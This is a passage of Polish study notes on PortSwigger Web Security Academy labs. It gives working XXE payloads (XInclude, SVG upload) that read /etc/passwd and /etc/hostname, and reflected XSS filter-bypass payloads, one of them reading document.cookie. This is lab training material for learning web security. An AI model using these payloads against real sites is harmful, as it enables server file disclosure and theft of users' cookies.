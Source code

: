 - dalej podobnie jak wcześniej wpisujemy zawartość /etc/passwd, a potem zwracamy błąd z jego zawartością

notatka: zablokowane zą zewnętrzne zapytania oraz tworzenie entity poza serwerem, datego poprzez nadpisanie tego z wnętrza serwera możemy obejść to zabezpieczenie



## Lab: Exploiting XInclude to retrieve files
1. jest to przypadek, że nie mamy dostępu do całego dokumentu XML, a jedynie podajemy parametry do niego
2. należy użyć wtedy `XInclude`, który pozwala na budowanie dokumentów XML, z sub-dokumentów
3. Zamiast parametru podajemy zatem payload (zakodowany URL, zeby mógł być argumentm):
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
4. Wtedy dosatemy informację: [Invalid product ID: zawartość /etc/passwd]


## Lab: Exploiting XXE via image file upload
XML w obrazie SVG:
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
# XXS

Lab: Reflected XSS into HTML context with most tags and attributes blocked
1. Widzimy, że blokowane są tagi html
2. Enumerujemy po wszystkich i okazuje się, że jako jedyny blokowany nie jest body
3. Blokowane również są eventy.
4. Enumerujemy po wszyskiech eventach i widzimy, że nie jest blokowany onresize
5. Teraz należy wysłać payload do ofiary:
- konstruujemy iframe, który od razu po załadowaniu zmienia szerokość, a zatem wywołuje onresize

```
<iframe src="https://0aff008804477d86c05a1924003d00c4.web-security-academy.net/?search=<body onresize=print()>" onload=width='200px'>
```

## Lab: Reflected XSS into HTML context with all tags blocked except custom ones ->> TODO
```
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

## Lab: Reflected XSS with some SVG markup allowed
1. enumerujemy po tagach i eventach
2. dostępny jest tylko event onbegin i tagi svg, image, title, animatetransform
3. z tego tworzymy: 
```
<svg><animatetransform onbegin=alert(1)>
```
Jeśli jesteśmy wewnątrz skryptu:
```
" autofocus onfocus=alert(document.domain) x="
```
Jeśli jesteśmy wewnątrz jakiegoś elementu np 
